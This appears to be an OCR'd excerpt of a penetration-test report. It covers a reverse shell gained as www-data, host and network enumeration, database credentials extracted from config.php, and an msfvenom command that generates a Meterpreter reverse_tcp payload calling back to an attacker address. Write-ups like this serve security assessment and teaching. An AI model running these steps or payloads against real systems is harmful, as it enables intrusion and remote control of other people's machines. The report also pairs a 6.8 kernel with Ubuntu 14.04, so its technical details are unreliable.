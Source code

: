 **Result:** ✅ Reverse shell established as www-data user

```bash
www-data@webapps:/app/public$ whoami
www-data
www-data@webapps:/app/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## 3. Post-Exploitation

### 3.1 System Enumeration

**System Information:**
```bash
uname -a
# Linux webapps.corp.local 6.8.0-57-generic #59-Ubuntu SMP x86_64 GNU/Linux

cat /etc/os-release
# Ubuntu 14.04.3 LTS
```

**Network Interfaces:**
```bash
ip addr show
# eth0: 10.50.100.20/24 (External network)
# eth1: 172.16.50.10/24 (Internal network)
```

**Critical Discovery:** Dual-homed host with access to internal network segment.

---

### 3.2 Database Configuration Discovery

**Location:** /var/www/config.php

**Extracted Configuration:**
```php
define('DB_DSN', 'mysql:dbname=cms_prod;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', '');
```

**Critical Finding:** MySQL root account accessible without password.

---

### 3.3 Meterpreter Session Establishment

**Objective:** Upgrade shell to Meterpreter for enhanced capabilities

**Payload Generation:**
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp \
  LHOST=10.50.100.5 LPORT=4445 -f elf > payload.elf
```
